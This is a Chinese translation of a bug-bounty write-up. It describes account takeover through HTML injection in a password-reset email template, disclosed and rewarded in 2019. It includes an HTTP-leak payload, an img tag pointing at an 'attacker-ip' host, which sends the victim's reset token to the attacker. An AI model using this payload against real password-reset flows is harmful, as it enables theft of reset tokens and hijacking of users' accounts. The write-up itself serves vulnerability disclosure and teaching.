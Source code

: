 # 通过 HTTP 泄漏未经验证的帐户接管

> 原文：<https://infosecwriteups.com/unauthenticated-account-takeover-through-http-leak-33386bb0ba0b?source=collection_archive---------0----------------------->

我用“app”关键字代替应用程序名，因为它是私人程序。

在测试忘记密码功能时，我发现应用程序发送了一个 post 请求，如下图所示:

![](img/5f58bf5a45eee7d1dd4100c72de2c5bf.png)

如果你注意到这个请求，emailBody 使用了一个模板。让我们首先测试，如果我们可以控制这个值，并尝试注入 html。

![](img/ebc424b2a5df03b41b64655e193decb2.png)

在上图中，我一直在邮件正文中发送标签，以下是我得到的回复:

![](img/4d3237c7cd1a1392ec8a6ec337bd6d86.png)

正如您所看到的，我们可以控制 emailBody，并且电子邮件模板中使用的用户输入没有经过净化(HTML 注入)。但是等等，有什么影响呢？此时，我想到了尝试 HTTP Leak 来泄露一个受害者的密码重置令牌。

> “HTTP 泄漏”，这是一种情况，HTML 元素和属性的特定组合导致对外部资源的请求被触发——当它不应该被触发时([来源](https://github.com/cure53/HTTPLeaks)

为了实现它，你只需要在[重置链接]之前使用下面的有效负载

```
<img src=\"http://attacker-ip/?id=
```

![](img/aff156d132c2e6006962a025a5db1bb3.png)

并将该请求转发给服务器。现在，一旦受害者打开电子邮件，密码重置令牌将被发送到攻击者的 IP 地址，如下图所示:

![](img/310dc49ffdca463a521a388d0c92c807.png)

现在，攻击者可以简单地使用密码重置令牌重置密码，这样，就可以接管应用程序上的任何帐户。

这是与所有主要的电子邮件服务提供商 Gmail 和 Yahoo 一起工作的，虽然这在他们那里不是问题，只是用户在电子邮件模板中的输入没有被净化。

**时间线:**

*   2019 年 1 月 8 日—报告了该问题
*   2019 年 1 月 10 日—审判
*   2019 年 1 月 10 日—已支付赏金

**参考文献:**

[](https://github.com/cure53/HTTPLeaks) [## cure53/HTTPLeaks

### 所有可能的方式，一个网站可以泄漏 HTTP 请求

github.com](https://github.com/cure53/HTTPLeaks)